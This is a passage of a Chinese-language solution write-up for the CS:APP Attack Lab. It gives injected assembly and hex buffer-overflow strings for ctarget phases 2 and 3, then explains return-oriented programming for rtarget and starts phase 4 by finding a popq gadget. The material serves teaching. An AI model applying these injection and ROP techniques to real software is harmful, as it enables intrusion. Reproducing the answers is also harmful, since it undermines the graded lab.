//因为attacklab设计者是关闭了栈随机化的，所以每次运行到0x4017ac时%rsp都为0x5561dc78  
攻击代码：
```
movq $0x59b997fa, %rdi
pushq $0x4017ec          # touch2地址
retq
```
攻击字符串：
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00   # 前13byte为指令对应的字节码
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00   # 跳转到0x5561dc78
```
PASS

//这种方式现在一般不可行，因为操作系统不会让你取栈上的指令

#### phase3
有一个hexmatch函数，我们可以看到最终它是调用了一个字符串比较函数，并返回了两个字符串是否相等。如果这两个字符串相等那么可以顺利调用validate。  
我们读汇编指令可以发现其中一个字符串的地址正是调用hexmatch时%rsi的值，也是调用touch3时%rdi的值  
我们通过gdb调试查看另一个字符串，直接用phase2的攻击字符串即可，更改一下使其跳转到touch3，在字符串匹配函数前打断点，可以得到另一个字符串是"59b997fa"，其地址是0x5561dc13  
所以直接更改phase2，让%rdi的值变为0x5561dc13  
攻击字符串：
```
48 c7 c7 13 dc 61 55 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
PASS

### rtarget
rtarget做出了两点改动：
1. 栈随机化，每次运行栈地址可能不同
2. 不可执行地址在栈范围内的指令，这意味着注入的新代码是不可运行的

因此，需要新的方法：利用已有代码，一段一段拼凑出我们想要的代码，而不是注入新代码  
具体的说：由于每一个函数都有一个return，ret指令是弹出栈中的一个地址大小的值，把它作为跳转的地址，我们可以在栈中放入许多不同的地址，以此实现在函数中跳来跳去；而我们跳跃的位置可以在函数的ret之前，执行一些命令再进行跳跃，这些命令就可以构成我们的攻击代码  
这种策略叫ROP:Return-Oriented Programming
#### phase4
和phase2一样，需要跳到touch2中并让cookie的值等于%edi的值  
官方文档也给了提示：使用只需start_farm和mid_farm中间的gadget  
可以先把cookie值安插在栈中，用popq指令把它取出，再赋给%edi  
> objdump -d rtarget > rtarget.s

观察rtarget反汇编之后的gadget，根据官方文档的提示，popq指令是以58~5f开头的，我们幸运地在getval_280这个函数中发现了：
> 4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
